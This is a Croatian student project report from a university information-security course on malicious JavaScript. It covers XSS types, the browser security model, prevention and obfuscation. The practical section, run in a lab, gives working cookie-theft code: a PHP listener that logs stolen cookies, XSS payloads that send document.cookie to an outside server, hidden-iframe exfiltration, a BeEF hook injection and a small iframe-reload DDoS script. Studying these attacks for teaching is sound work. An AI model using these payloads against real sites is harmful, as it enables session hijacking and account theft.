




Korištenje Javascripta u maliciozne svrhe
Projekt iz kolegija "Sigurnost informacijskih sustava"
Akademska godina 2012./13.
Članovi tima: Filip Horvat, Zvonimir Jurinić, Stipe Stagličić, Ivan Šimunković
Sadržaj |
Uvod
Autori: Zvonimir Jurinić & Stipe Stagličić
Postoje statičke i dinamičke web stranice. Kod statičkih stranica server ima potpunu kontrolu nad prikazom sadržaja kojeg vidi klijent (zatražena web stranica izvršava se na serveru i to vidimo u pregledniku). Danas su takve stranice rijetke jer nema interakcije između korisnika. Kod dinamičkih stranica stvar je suprotna - server nema potpunu kontrolu. Tu se web stranice generiraju na temelju korisničkih ulaznih podataka i na taj način postiže se interakcija među korisnicima (korisnik utječe na izgled, sadržaj i ponašanje zatražene stranice sa servera - tražena web stranica se izvršava na serverskoj i korisničkoj strani). Ako se putem ulaznih podataka stavi maliciozni kod iskoristivši neki sigurnosni propust, korisnik i server praktički toga nisu ni svjesni. Za izvršavanje na korisničkoj strani uglavnom se koristi Javascript. Najveća prednost je povećana interaktivnost stranice, jer se obavlja odmah po akciji korisnika, što znači da se ne mora čekati na upit i odgovor sa servera. To doprinosi smanjenom prometu prema serveru, indirektno webstranica je "brža". No, kod svakih dobrih postoje i loše strane - to je sigurnost. Putem skripti preko korisnikovog browsera mogu se pokretati različiti programski (maliciozni) kodovi i krađa korisničkih podataka. Općenito za maliciozni javascript može se reći da je to kod skinut s nekog računala (servera) i pokrenut lokalno preko korisničkog browsera bez znanja korisnika (najčešće) da je pokrenut.
Općenito o Javascriptu
Autori: Ivan Šimunković & Stipe Stagličić
JavaScript je skriptni jezik koji se uglavnom koristi za razvoj web aplikacija koje se izvršavaju na strani klijenta. JavaScript se primarno primjenjuje za implementaciju funkcija ugrađenih u web stranice koje obavljaju interakciju s DOM (Document Object Model) objektom stranice. Budući da se Java Script skripta izvršava na strani web klijenta, a ne poslužitenja, ona može odmah reagirati na unos korisnika i time web stranicu učiniti interaktivnijom. Osim toga, JavaScript jezikom se mogu detektirati korisničke akcije koje HTML ne može registrirati kao što su na primjer pritisci pojedine tipke na tipkovnici ili mišu. Tako je nastala i sve popularnija Ajax tehnologija koja je također bazirana na primjeni JavaScript jezika. Uz prethodno navedene funkcionalnosti, JavaScript skripte imaju dugu i neslavnu prošlost sigurnosnih propusta koji nisu uzrokovani samo propustima u implementaciji već su uzrokovani i nedostacima same tehnologije. Tako su npr. zlonamjerni napadači u mogućnosti putem JavaScript skripti ostvariti napade koji za cilj imaju pokretanje izvođenja proizvoljnog programskog koda na korisnikovom računalu ili krađu korisničkih podataka. JavaScript je najpopularniji skriptni jezik na Internetu kojeg podržavaju svi poznatiji preglednici - Internet Explorer, Mozilla Firefox, Netscape, Opera. Cilj kreiranja Javascript jezika je bio dodati interaktivnost HTML stranicama. Javascript je interpreter, što znači da se skripta izvršava odmah naredbu po naredbu, bez prethodnog prevođenja (compiliranja) cijelog programa i kreiranja izvršne datoteke. On je javno raspoloživ skriptni jezik.

Javascript vs. Java
Javascript nije isto što i Java. To su dva potpuno različita jezika. Javascript je samo skriptni jezik dok je Java pravi objektni programski jezik za izradu aplikacija.
Mogućnosti Javascripta
- Programiranje u okviru HTML stranica
- Pretvaranje dinamičkog teksta u HTML stranicu
- Reagiranje na događaje
- Čitanje i pisanje HTML elemenata
- Validiranje (provjera ispravnosti i vjerodostojnosti) podataka
- Detektiranje preglednika kojeg korisnik upotrebljava
- Kreiranje "kolačića" (cookies)
XSS napadi
Cross-Site Scripting (XSS) je jedan od najčešćih oblika hakerskih napada na internetu. XSS napadi većinom pogađaju korisnike, npr. njihove preglednike,a rijeđe skripte na serverskoj strani. XSS napadi se oslanjaju na manipuliranje skriptama web aplikacije koje se izvršavaju na način na koji to želi netko tko je zlonamjeran. Takva manipulacija može biti postavljanje skripte na strani koja se potom izvršava svaki put kada se stranica učitava. XSS je danas najčešća ranjivost u sigurnosti softvera iako to ne bi trebalo biti tako s obzirom da je XSS lako otkriti i popraviti. XSS ranjivosti mogu za posljedicu imati manipulaciju podacima kao i njihovu krađu.
Ključne značajke XSS napada:
- XSS napadi se odvijaju na ranjivim web aplikacijama
- U XSS napadima žrtva je korisnik a ne aplikacija
- U XSS napadima zlonamjerni sadržaj se isporučuje korisnicima pomoću Javascripta
XSS ranjivost nastaje kada web aplikacije uzmu podatke od korisnika i dinamički ih uključuju u web stranice bez prethodne valjane provjere podataka. XSS ranjivosti omogućavaju napadaču da izvršava proizvoljne komande i prikazuje proizvoljni sadržaj u pregledniku napadnutog korisnika. Uspješan XSS napad dovodi do toga da napadač preuzima kontrolu nad preglednikom ili nalogom za ranjivu web aplikaciju. Iako je XSS napad omogućen ranjivostima u web aplikaciji, žrtve takvih napada su korisnici aplikacije, a ne aplikacija sama po sebi. Potencijal XSS ranjivosti leži u činjenici da se zlonamjerni kod izvršava u sklopu korisničke sesije, omogućavajući da napadač zaobiđe normalna zaštitna ograničenja.
Što je to Cross-Site Scripting, YouTube video
Vrste XSS napada:
Postoje tri vrste Cross-Site Scripting:
- DOM-temeljen (engl. DOM-Based XSS)
Ova vrsta XSS napada omogućuje napadaču da radi ne na žrtvinoj web stranici već na žrtvinom lokalnom računalu. DOM-temeljen XSS exploita sljedeće probleme na korisnikovom lokalnom računalu na ovaj način:
1. Napadač kreira prikladnu zlonamjernu web stranicu
2. Neoprezan korisnik otvori tu web stranicu
3. Korisnik ima ranjivu stranicu na računalu
4. Napadačev web site pošalje naredbu na ranjivu HTML stranicu
5. Lokalna ranjiva stranica izvrši te naredbe sa privilegijama trenutnog korisnika na tom računalu
6. Napadač lako može dobiti pristup žrtvinom lokalnom računalu
Rješenje ovog problema je sljedeće. Treba voditi računa o "samo" dvije stvari:
1. Ne treba posjećivati nepouzdane web stranice
2. Treba redovito osvježavati računalo novim zakrpama
- Neustrajni XSS (engl. Non-persistent XSS)
Ovo je najpoznatiji sigurnosni propust koji se može naći na internetu. nazvan je "neustrajni" jer radi na trenutnom HTTP odgovoru sa žrtvine web stranice. On se tek uoči kada web stranica dobije podatke predviđene od napadača kako bi automatski generirali izlaznu stranicu za napadača. Najčešća primijenjena vrsta takvog propusta je u servisima za pretraživanje na web stranicama - npr. napadač piše neki zlonamjerni HTML kod u textbox, ako je web stranica ranjiva, rezultat je kod koji smo unijeli u textbox, on se prikaže na web stranici. Rješenje je izvršavanje provjere koda koji se unosi u web stranicu izbjegavajući HTML tagove ili prihvaćajući samo slova i brojke.
- Ustrajni XSS (engl. Persistent XSS)
Ovaj propust je sličan prethodnom tipu XSS-a zbog toga što oba rade na žrtvinoj web stranici i pokušavaju pribaviti informacije o korisniku. Jedina razlika je što ranjive web stranice kod ustrajnog XSS-a napadač ne treba osigurati URL do korisnika, jer web stranica zahtjeva od korisnika da unese podatke u sustav, npr. kod knjige gostiju (engl. guestbook). To uspijeva kada alati koji služe za unos poruka ne vrše nikakvu provjeru sadržaja koji se unosi. Tako se omogućuje napadaču da ukrade kolačić (engl. cookie) sa korisnikova računala. Rješenje je isto kao i kod neustrajnog XSS-a.
{kind=link}
Učinak XSS napada:
Kada napadači uspješno iskoriste XSS ranjivosti, oni ostvaruju pristup povjerljivim podacima potrebnim za prijavljivanje na određenu stranici ili u web aplikaciju. Oni također mogu distribuirati internet crve ili pristupiti korisnikovom računalu i pregledati povijest korisnikovog preglednika ili kontrolirati preglednik iz daljine. Nakon ostvarivanja kontrole nad sustavom korisnika, napadači također mogu analizirati i koristiti druge intranet aplikacije. Tako se iskorištavanjem XSS ranjivosti mogu izvoditi sljedeće zlonamjerne i opasne aktivnosti:
- Krađa korisničkih računa
- Širenje internet crva
- Pristup povijesti preglednika i spremljenog sadržaja
- Kontrola preglednika iz daljine
- Pregled i iskorištavanje intranet uređaja i aplikacija
Sigurnosni aspekti
Autor: Ivan Šimunković
JavaScript je zamišljen kao skriptni jezik što znači da se njime ne implementiraju pravilne sigurnosne mjere, te ga nikad ne bi trebalo koristiti umjesto pravilne enkripcije. Naravno, postoji definiran JavaScript sigurnosni model, ali on nije definiran sa svrhom zaštite vlasnika web stranice ili zaštite podataka koji se razmjenjuju između web klijenta i poslužitelja. Sigurnosni model JavaScript programskog jezika je definiran s namjerom zaštite korisnika od zlonamjernih web stranica i skripti pa s tim u vidu definira stroga ograničenja o tome što autor skripte skriptom može ili ne može učiniti u okruženju web preglednika. Princip sigurnosnog modela zasniva se na davanju potpune kontrole skripti unutar web stranice, ali ništa izvan njenih granica što znači sljedeći:
- JavaScript ne može čitati ili kreirati/mijenjati datoteke na korisnikovom računalu. Također ne može kreirati/mijenjati datoteke na web poslužitelju (osim indirektno putem skripte na strani poslužitelja koja će kreirati/mijenjati datoteke). Jedino što skripta može mijenjati i pohraniti na korisnikovom računalu su web kolačići.
- Skripta može obavljati interakciju s drugim web stranicama iz istog frameset-a s istog web poslužitelja, ali ne sa stranicama s drugog web poslužitelja. Neki web preglednici čak to ograničavaju na web stranice s istog priključka bez obzira nalaze li se one na istom ili različitom web poslužitelju.
- Skripta se ne može koristiti za promjenu vrijednosti atributa vezanih uz učitavanj datoteka (eng. file input) te se njome ne može učitavati datoteke bez potrebnog odobrenja.
- Skripta ne može dobiti uvid u web stranice koje je korisnik prethodno posjetio, tj. ne može dobiti uvid u tzv. Location objekt, ali može narediti web pregledniku pomak unaprijed ili unatrag bilo koliko koraka prema podacima pohranjenim unutar web preglednika. Skripta nikako ne može doći do podataka o tome koje stranice je korisnik prethodno posjetio.
- Skripta nema pristup web kolačićima drugih web stranica.
- Skripta nema uvid u podatke o tome da li korisnik u trenutku izvođenja koristi i neke druge programe ili neke druge prozore unutar web preglednika.
- Skripta ne može otvoriti nove prozore nevidljive korisniku ili premale prozore koje korisnik nije u mogućnosti vidjeti, a u većini web preglednika skripta ne može zatvoriti prozore koje nije otvorila.
Kao što je vidljivo iz navedenog, sigurnosni model definira osnovne principe ponašanja web preglednika kod izvođenja JavaScript skripti – tretirati programski kod skripte pronađen na web stranici kao neprijateljski programski kod. Detaljniju specifikaciju sigurnosnih aspekata definiraju tzv. sigurnosne politike za izvođenje JavaScript skripti koje osim ograničenja definiraju i iznimke koje npr. dozvoljavaju automatsko izvršavanje skripti iz provjerenog izvora ili koje nakon eksplicitne dozvole korisnika omogućavaju skriptama pristup inače nedostupnim podacima.
XSS (engl. Cross Site Scripting)
Kada se posjećuje neka web stranica engl. browser (preglednik) svaki put vizualizira neki engl. html, engl. css i engl. javascript. Sigurnosni propust XSS-a leži u tom malicioznom javascriptu koji se pokušava izvršiti u korištenom pregledniku - iskorištava se sigurnosni propust web aplikacija tako da se u ulazne podatke korisnika umetne maliciozni kod. Ti podaci se prikazuju nakon posjeta web stranici, u ovom slučaju izvršava se i maliciozni kod. XSS se temelji na manipulaciji toga da se ne provjerava (ne filtrita se) ono što se ispisuje u browseru. Korisniku damo link i on taj link otvori. U ovisnosti o vrsti XSS-a maliciozni kod je sadržan u danom linku ili se iz baze pročita komad malicioznog koda. Na taj način korisnik ima sigurnosni problem. Cilj takvog napada je krađa različitih korisničkih podataka, korištenje zaraženog računala kao dio engl. botneta. Napadač također želi da iskorišteni propust bude što duže neprimijećen. Najčešće se XSS koristi za engl. Phishing (fišing) - lažnim linkovima se pokušava legitimnog korisnika navesti na otkrivanje povjerljivih podataka. Postoje tri vrste XSS napada: neperzistentni ili jednokratni (engl. non-persistent), perzistentni ili trajni (engl. persistent) i temeljeni na DOM (engl. Document Object Model) objektima. 
{kind=link}
Legitimni korisnik se prijavljuje u sustav. Nakon prijave počinje s radom u web aplikaciji. Napadač je otkrio da promatrana web aplikacija ranjiva na XSS. Svim korisnicima šalje email s malicioznim kodom (Primjer: šalje link (URL adresa) koji sadrži maliciozni kod). Ako logirani korisnik pokrene link izvršava se maliciozni javascript u pregledniku korisnika. Najjednostavniji primjer je krađa engl. cookieja (kolačića) u kojem je zapisan ID sesije za pristup sustavu. Cookie se šalje na server napadača i on pomoću prikupljenih podataka ulazi u sustav kao da je prethodno prijavljeni korisnik.
Neperzistentni XSS (engl. non-persistent)
Ovaj tip XSS-a naziva se još i jednokratna XSS ranjivost, a karakterizira ga da maliciozni skriptni kod nije trajno pohranjen na nekom web serveru. Funkcionira na način da napadač ubaci maliciozni kod u korisnikov HTTP zahtjev (ulazne podatke), odnosno URL kojeg će korisnik pokrenuti. Ranjive web stranice, odnosno vraća korisniku traženu web stranicu i sadržani maliciozni kod, koji se izvršava u pregledniku klijenta. Krajnji rezultat je omogućen potpuni pristup sadržaju ranjive web stranice. Poanta ovog oblika ranjivosti leži u neprovjeri ulaznih podataka koji se koriste za ispis traženog sadržaja web stranice u korisničkom pregledniku. Smisao ranjivosti je u neprovjeravanju ulaznih korisničkih podataka (HTTP zahtjev) koji se koriste za kreiranje web stranice, koja se prikazuje korisniku u web pregledniku. Opasnost od ove vrste napada za korisnika ne postoji tako dugo dok ga napadač na neki način ne navede da aktivira maliciozni link. Za to se koriste razne tehnike socijalnog inženjeringa - taj princip je tipični primjer phishinga. Jednom kreirani link napadač šalje velikom broju korisnika da bi izvršio XSS napad. Najčešće se šalju emailom, a danas je najčešći način širenje preko društvenih mreža. Da bi se mogli zaraziti i drugi korisnici, oni moraju otvoriti isti taj link, koji je otvorio i prethodni korisnik. 
{kind=link}
- Napadač otkriva ranjivu web stranicu i kreira maliciozni link, kojeg šalje velikom broju korisnika. Link se sastoji od url-a servera web stranice i malicioznog koda.
- Korisnik se prijavio na server putem korisničkog imena i lozinke i ima mogućnost manipulacije osjetljivim podacima (npr. brojevi kreditnih kartica). Korisniku dobiva maliciozni link, koji izgleda kao link na legitimni server web stranice.
- Korisnik pokreće taj link; šalje http zahtjev serveru za ranjivu web stranicu.
- Server korisniku vraća traženu web stranicu koja zbog XSS propusta sadrži i skriptni maliciozni kod.
- Maliciozni kod se izvršava u korisnikovu web pregledniku.
- Dohvaćaju se kolačići (engl. cookies) korisnika koji najčešće sadrže korisničke autentifikacijske podatke.
- Preglednik dobiva informaciju o preusmjeravanju na server napadača. Bez znanja korisnika šalju se sakupljeni podaci na server napadača. Napač je spreman koristiti identitet korisnika.
Primjer neperzistentnog XSS-a: (Izvor koda) Web stranica ranjiva na XSS:
http://www.legitimni_posluzitelj.com/trazilica.php
<HTML> <BODY> Traženi pojam <?php echo $_GET['pojam']; //neprovjereni i nekodirani ispis traženog pojma ?> nije pronađen. </BODY> </HTML>
Maliciozni link:
http://www.legitimni_posluzitelj.com/trazilica.php?pojam=<script>document.location='http://www.maliciozni_posluzitelj.com/napad.cgi?'+document.cookie</script>
Perzistentni XSS (engl. persistent XSS)
Ovaj tip XSS-a naziva se još trajna XSS ranjivost. U odnosu na prethodnu vrstu napada maliciozni skriptni kod ostaje trajno pohranjen na serveru neke web stranice. Server taj kod normalno umeće u rezultat tražene web stranice. Znači, dovoljno je da korisnik samo posjeti zaraženu web stranicu i bez znanja korisnika u pregledniku se izvršava javascript. Ulazni podaci pohranjuju se na serveru, najčešće u bazu, unutar datotečnog sustava. Ranjivost leži u prikazu te web stranice ostalim korisnicima bez prethodnog kodiranja. Najbolji primjeri te vrste ranjivosti su stranice koncipirane kao forumi, knjige gostiju (engl. guestbooks) 
{kind=link}
- Napadač otkriva web stranicu ranjivu na perzistentni XSS, koja omogućava trajno postavljanje nekog sadržaja dostupnog svima i kreira maliciozni kod.
- Na web stranicu npr. forum, napadač stavlja poruku sa malicioznim kodom. Tu je opet bitan faktor socijalnog inženjeringa - naslov mora biti takav da privuče čim više korisnika. Nakon spremanja, to ostaje trajno pohranjeno u bazi.
- Korisnik želi pročitati tu poruku i šalje zahtjev za dohvaćanje webstranice (u ovom slučaju želi vidjeti poruku).
- Server vraća korisniku traženu webstranicu.
- Maliciozni kod se izvršava u pregledniku korisnika.
- Maliciozni kod preusmjerava korisnika na server napadača.
- Opet se šalju kolačići na server napadača (npr. aktivne sesije (engl. session) u pregledniku) i napadaču je dalje otvoren put da izvršava razne skripte na računalu korisnika.
Primjer perzistentnog XSS-a: (Izvor koda) Link napadača za postavljanje poruke na web:
http://www.legitimni_posluzitelj.com/unos.php?poruka=Lazna_poruka<script>document.location='http://www.maliciozni_posluzitelj.com/napad.cgi?'+document.cookie</script>
Nakon pohranjivanja u bazu, poruke se u ovom slučaju dohvaćaju po ID-u. Ranjiva web stranica:
http://www.legitimni_posluzitelj.com/prikaz.php
<HTML> <BODY> <?php $poruka = dohvati_poruku($_GET['poruka_id']); //dohvaćanje odgovarajuće poruke na temelju parametra poruka_id echo $poruka; //neprovjereni i nekodirani ispis poruke ?> </BODY> </HTML>
Link korisnika kako bi pogledao poruku:
http://www.legitimni_posluzitelj.com/prikaz.php?poruka_id=37
Prevencija od XSS napada
Najlakši i najpouzdaniji način prevencije je vlastito znanje, tj. neotvaranje neprovjerenih linkova ili isključivanje izvršavanja Javascripta u korištenom browseru. Društvene mreže su najpopularniji način za izvršavanje napada. Zaraženi korisnik pošalje svim prijateljima maliciozni link uz neku primamljivu poruku, a naivni korisnici klikom na link najčešće šalju svoje korisničke podatke na server napadača.  Jako korisna stvar koja bi se trebala koristiti pod obavezno su ekstenzije za preglednike NOSCRIPT (Mozilla Firefox) i NOTSCRIPTS (Google Chrome). Služe za blokiranje skriptnog koda unutar web stranica koje otvaramo. Nakon instalacije moramo eksplicitno reći da želimo prihvatiti kod (npr. Javascript) sa određene domene (tj. stranice koje smo posjetili). K tome se preporuča i korištenje alata KeePass (alat za čuvanje lozinki, nedostatak je da bazu lozinki moramo negdje imati pohranjenu). Dobra solucija je pohranjivanje baze na Dropboxu (najpopularniji data cloud servis ) plus korištenje dvostruke autentifikacije. Sa programerske strane jedan od načina prevencije je filtriranje ulaznih podataka. Znači eliminiraju se svi nedopušteni znakovi osim slova, brojeva i razmaka. Bolji način je kodiranje ulaznih znakova koji idu na izlaz. Za to se koriste funkcije htmlspecialchars() i htmlentities(). U html-u postoje rezervirani znakovi koji su zamijenjeni prevedenim ekvivalentom. Primjer: '<' i '>' enkodira u '<' i '>', '(' i ')' u '(' i ')’.
{kind=link}
<?php echo htmlspecialchars($_GET['pojam']); ?>
Maskiranje javascripta (engl. Obfuscated javascript)
U primjerima XSS-a jasno se vidi da je na dio legitimnog linka dodan komad javascripta. No, autori kodova ne želi da budu jasno vidljivi pa ih maskiraju. Prva primjena je npr. kod filtriranja navodnika: Otkrili smo web stranicu ranjivu na xss, ali se javascript ne izvršava. Ako pogleda u source, vidi se slijedeće:
<input name='txtName' type='text' value='<script>alert(\"test\")</script>'/>
Vidi se da se filtriraju navodnici, pa se javascript ne može izvršiti, tj. prije svakog navodnika umeće '\' (engl. backslah). Za zaobilažanje toga koristi se javascript funkcija String.fromCharCode() koja ASCII kod konvertira u tekst i ne trebaju se koristiti navodnici. Primjer alata koji obavlja tu funkciju: http://wocares.com/noquote.php
Ono što se želi ispisati dobiva ovakav oblik: String.fromCharCode(116,101,115,116) Skripta izgleda ovako:
<script>alert(String.fromCharCode(116,101,115,116))</script>
Da bi kod za korisnika izgledao još kompliciranije, napadač ga kodira heksadekadski. Primjer web alata za tu namjenu: http://www.maxi-pedia.com/ascii+to+hex+converter
Izgled kodirana skripte:
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%53%74%72%69%6E%67%2E%66%72%6F%6D%43%68%61%72%43%6F%64 %65%28%31%31%36%2C%31%30%31%2C%31%31%35%2C%31%31%36%29%29%3C%2F%73%63%72%69%70%74%3E
Zaštita
Kako zaštititi vlastitu web stranicu od napada korištenjem Javascripta
Praktični dio
Autor: Zvonimir Jurinić
Krađa cookieja (XSS napadi)
Pomoću cookieja se ostvaruje korisnička autentifikacija na nekoj webstranici (serveru). Cilj je ukrasti cookie. Njegovim korištenjem jednostavno se zaobilazi proces legitimne autentifikacije; i napadač je prijavljen u kao da se u sustav prijavio legitimni korisnik (čiji je cookie ukraden). Prvi korak je pronalaženje ranjive web stanice. Za potrebe projekta koristila se OWASP Broken Web Applications Project, pokrenuta na virtualki. Najjednostavniji način provjere XSS-a na stvarnom webu jest da na bilo kojoj webstranici sa input poljima probamo izvršiti neku skriptu (nrp. tražilice na stranici, mailing liste, ...). U input polje se upiše jednostavni javascript kod: <script>alert(1)</script> Drugi korak je kreiranje jednostavne php skripte koja sprema proslijeđene cookieje. Skriptu je potrebno postaviti na neki server. Za potrebe projekte koristio sam server arka.foi.hr, a skriptu sam nazvao listener.php
listener.php:
<?php
$cookie=$_GET['c'];
$ip=getenv('REMOTE_ADDR');//$_SERVER["REMOTE_ADDR"]
$port=$_SERVER['REMOTE_PORT'];
$date=date("j F, Y, g:i a");
$referer=getenv("HTTP_REFERER");
$fp = fopen('cookies.html','a');
fwrite($fp, "Cookie: $cookie
IP: $ip
port: $port
Date and time: $date
referer: $referer");
fclose($fp);
header("Location:http://192.168.56.101/dvwa/vulnerabilities/xss_r/");
?>
Treći korak je kreiranje malicioznog javascripta kojeg onda moramo uvaliti žrtvi i ona ga mora pokrenuti. maliciozni javascript koji krade cookie:
<script>document.location="http://arka.foi.hr/~zvjurinic/listener.php?c=" +document.cookie </script>
Cjeloviti link koji šaljemo korisniku:
http://192.168.56.101/dvwa/vulnerabilities/xss_r/?name= + prije spomenti javascript
Link na datoteku s cookiejima:
http://arka.foi.hr/~zvjurinic/cookies.txt
Nakon što imamo cookie, koristi se alat Tamper Data, tako da se u polje cookie kopira vrijednost cookieja i (ja kao napadač) prijavljen sam u sustav kao legitimni korisnik.
Opisani postupak je primjer neperzistetnog XSS-a. Ako bi želio pokazati perzistentni napad, onda bi prijašnji maliciozni javascript kopirao u <ref name="Owasp" /> GuestBook .
Također se koristi i engl. frame (Inline frames)koji omogućava otvaranje drugog linka unutar postojeće stranice ovisno o definiranim atributima. Ta druga stranica može biti veličine 1 pixel, pa je praktički neće ni primijetiti. Iframe može uključivati razne stranice sa malwareom. Kod prijašnjih napada koristi nakon izvršavanja javascripta koristi se preusmjeravanje na neku drugu stranicu. To baca sumnju da se nešto dešava u pozadini. Ako se koristi iframe onda nema preusmjeravanja.
<iframe width=0 height=0 src=javascript: void(document.location="http://arka.foi.hr/~zvjurinic/listener.php?c="+document.cookie)></iframe>
var ifr = document.createElement("iframe");
ifr.src = "http://arka.foi.hr/~zvjurinic/listener.php?c=" + document.cookie;
ifr.visibility = "hidden"
document.body.appendChild(ifr);
Ovaj dio koda stavlja skriveni iframe na stranicu i loada skriptu za spremanje cookieja. Da bi ga korisnik pokrenuo treba napraviti engl. script source tag:
<script src="http://arka.foi.hr/~zvjurinic/iframer.js"></script>
XSS shell
Može se reči da je to kao neki tunel za engl. XSS backdoor i engl. zombie manager. Ima jako puno moćnih mogućnosti glede hakiranja. Poanta je da napadač ubaci žrtvi jedan specijalni javascript file koji održava u pozadini otvorenu konekciju s serverom napadača i čeka na naredbu. Dalje onda žrtvi može ubaciti bilo kakvi javascript ili izvršiti naredbu. Da bi ga postavili prvo moramo koristiti BackTrack. Koristio sam BackTrack5r3 . Trebamo instalirati neki XSS shell, konkretno koristio sam BeEF (The Browser Exploitation Framework). Više o BeEF-u ovom linku: https://github.com/beefproject/beef/wiki.
{kind=link}
Nakon pokretanja servera dobije ovakav zaslon. Bitne su nam dvije linije koda Hook URL i UI URL. Prvi se šalje korisniku, druga je za web sučelje. Nakon autentifikacije vidimo Control Panel XSS shell server. Zatim treba još umetnuti javascript za korisnika. Taj javascript file će dalje odraditi cijeli posao.
<script src="10.0.2.15:3000/hook.js"></script>
Nakon što se u browseru korisnika pokrenuo Javascript, vidimo ga prikazanog pod Hooked Browsers. Ako se klikne na njega vide se Detalji browsera, tj. razne osnovne informacije. Pravi pontencijal Beef-a skriva se u Tabu engl. Commands. Stvarno ima puno naredbi koje se mogu onda izvršavati u korisničkom browseru bez da je on toga svjestan. Nisam ih isprobaval jer to malo izlazi van iz granica teme seminara. Slijedeća slika prikazuje cijelo stablo naredbi
{kind=link}
Javascript Botnet
Ideja Javascript Botneta je slijedeća: Imamo računalo, na njemu instaliran BackTrack. To računalo se ponaša kao server. Na njemu se instalira proxy i registrira se, da se koristi kao proxy server. Kako promet ide preko tog računala, u svaki javascript doda se još jedan maliciozni dio, koji se izvrši u korisnikovom browseru, tj. instalira drugi maliciozni javascript pomoću kojeg se napravi backdoor. Za kontrolu nad svim zaraženim računalima koristi se neki framework za to. Primjer je već prije spomenuti BeEF. Ovo je samo ideja i detaljnije o tome ima na slijedećem linku:Javascript Botnet
DDos Javascript
<html>
<head>
<script>
function exploit(){
var iframe = document.getElementById("the_iframe");
iframe.onload=exploit;
for(var n=0; n<10; n++){
iframe.src = "www.google.hr"; } }
</script> </head> <body onmousemove="exploit();"> <iframe width="80%" height="50%" id="the_iframe" src="http://free-ck.t-com.hr/dvdmackovec/" frameborder="1"></iframe> test </body> </html>-->
Literatura
Knjige:
Internet izvori:
http://www.cis.hr/www.edicija/LinkedDocuments/CCERT-PUBDOC-2007-10-206.pdf (dostupno 17.01.2013.)
http://www.veracode.com/security/xss (dostupno 18.01.2013.)
http://os2.zemris.fer.hr/ns/malware/2007_klaric/css.html (dostupno: 18.01.2013.)
http://www.cert.hr/sites/default/files/CCERT-PUBDOC-2005-01-106.pdf
http://www.cert.hr/sites/default/files/NCERT-PUBDOC-2011-02-323.pdf
http://www.cert.hr/sites/default/files/CCERT-PUBDOC-2006-05-157.pdf
http://www.go4expert.com/forums/showthread.php?t=17066
http://www.cert.hr/sites/default/files/KAKO-NAPRAVITI-SIGURNU-APLIKACIJU.pdf